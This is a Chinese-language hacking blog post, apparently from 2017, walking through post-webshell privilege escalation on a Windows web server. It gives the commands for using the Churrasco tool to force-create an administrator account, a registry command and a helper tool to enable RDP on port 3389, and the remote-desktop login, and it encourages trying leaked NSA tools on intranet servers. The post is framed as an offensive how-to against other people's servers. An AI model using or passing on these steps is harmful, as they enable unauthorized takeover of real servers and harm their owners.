 ```yaml
---
title: Windows服务器提权和开启3389远程连接
subtitle: 
summary: 
authors:
- admin
tags: ["windows","3389","rdp","提权"]
categories: ["Hack"]
date: "2017-04-20T00:00:00Z"
featured: false
draft: false

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder. 
image:
  caption: ""
  focal_point: ""

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["internal-project"]` references 
#   `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
projects: []
---
```


系统为了都有有权限管理系统，根据权限高低来决定用户在这台机器上能做的事。

比如有的文件规定了低权限用户是无法读写的，而这些文件通常是我们想要获取的敏感文件。

有的文件夹是规定不能读写的，那么我们就不能上传任何到这个文件夹，也无法从这个文件夹里运行任何程序，所以我们连接上服务器都要找一个可读可写的文件夹来继续上传我们需要的程序，如开后门的程序。

一般的网站都存储在服务器权限比较低的文件夹里， 所以即使我们上传了WebShell，最多也只能够对网站所在的文件夹操作，而不能完整的控制整个服务器。所以我们需要进行提权，以一个权限相当高的用户来访问该服务器。

Windows中以用户组来分配权限，每个用户组有不同的权限，其中最高权限用户组是Administrators组，拥有对整个系统进行操作system权限。每个用户组下可以创建多个用户。

在Win10以前的Windows系统版本中，可以通过 右键此电脑=》管理=》系统工具=》本地用户和组来查看用户组及用户组中的用户。

![img](v2-eb8981064ab46a0bc03f31ee70a86f2b_hd.png)

## 0x01 大马和菜刀

我试过各种大马，功能其实都大同小异，不过不知道是不是我使用的原因，里面的cmd并不怎么好用。大马里我个人觉得最有用的就是查看文件权限属性的功能，这个使我们在找后门上传点的时候是非常好用的，并且这个功能在菜刀里是没有的。

这种php大马可以在Perms项下看到文件的读写权限属性。 

![img](v2-2fcc71a8ada61d4e72901ab183efe4ec_hd.png)

而菜刀比较好的的就是比较适合人类查看的文件目录界面，和虚拟终端。所以通常将两者结合起来用。右键任意可执行文件打开虚拟终端。 



## ![img](v2-18be9bbfd3f9c9b66d97b4a376774239_hd.png)0x02 巴西烤肉提权

创建系统用户的命令如下：

- 新建一个用户 

```text
net user [username] [password] /add
```

- 添加到Administrators用户组

```text
net localgroup Administrators [username] /add
```

- 激活用户

```text
net user [username] /active:yes
```

由于一般网站被放在服务器中权限比较低的文件夹中，因此直接创建Administrator用户的命令是不被执行的。

巴西烤肉是一个非常强劲的程序，它可以无视拒绝强制执行cmd命令，经常被用到提权中。

我们通过菜刀将cmd.exe和巴西烤肉上传到网站文件夹中。



![img](v2-0d4983673f80086b2a185b50d42e40d5_hd.png)

然后右键cmd.exe打开虚拟终端，先将终端路径设置为我们自己上传的cmd.exe，再尝试直接创建用户，报错命令被拒绝执行。（其实这里是一个Ubuntu Linux服务器）



![img](v2-6c9679f163c06cb6d6a73a7aa38f17de_hd.png)



![img](v2-7a965148c3cbc5a7bc19695203fac9e8_hd.png)

====================================================================== 



由于后来没找到Windows服务器的网站模板，因此下面就不带图了，过程全部手打还原，谅解

======================================================================

先将终端路径设置为我们自己上传的cmd.exe

```text
SETP ../../www/uploads/cmd.exe
```

再用巴西烤肉强制执行命令。巴西烤肉语法：Churrasco.exe "your command"

```text
Chu.exe "net user [username] [password] /add & net localgroup Administrators [username] /add"
```

若无报错，那么我们就已经成为系统管理员账户了。查看当前用户会发现我们创建的用户：

```text
net user
```

至此，我们已经创建了超级权限的用户，已经可以对整个服务器进行操作了。但是在终端里操作总有些不方便，下面我们介绍一下拿下权限后如何远程连接进行桌面操作。

## 0x03 3389端口服务

远程桌面协议（RDP, Remote Desktop Protocol）是一个多通道（multi-channel）的协议，让用户（客户端或称“本地电脑”）连上提供微软终端机服务的电脑（服务器端或称“远程电脑”）。大部分的Windows都有客户端所需软件。服务端电脑方面，**默认听取送到TCP3389端口的数据**。【百度百科】

这是一种非常方便的对服务器的操作方式，一般的网站管理员都会开启3389端口远程桌面服务。而有的安全素养比较高的管理员则会选择将3389端口关闭，甚至开启防火墙禁止任何开启3389的操作。

*闲扯一下，最近Shadow Broker泄露的NSA的工具，内网里开3389的服务器一打一个准，有空的可以去玩玩。misterch0c/shadowbroker* 

在无防火墙的情况下，我们可以用cmd命令来添加注册表开启3389端口，或者使用别人留下的工具。

- cmd命令

将以下命令写入一个.bat文件，将其拖入服务器可读写目录执行，即可开启3389端口。

此种对Windows XP 和2003系统有用，不用重起

```text
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

- 写好的程序

  ![img](v2-c1f967bb47989b9824e01b78f35b8281_hd.png)

  ```text
  Chu.exe "kai3389.exe"
  ```

  就行了

*在有防火墙的情况下，需将防火墙先关闭，再用lcx.exe将3389映射到其他端口上，这个等我搞懂了再写。*

## 0x04 RDP远程桌面连接

创建好用户，开启远程桌面功能，就可以用此用户远程登陆别人的服务器直接进行桌面操作，岂不是美滋滋。

Win+R 打开【运行】窗口，运行

```text
mstsc /admin
```

用直接创建的用户名和密码登录，OK。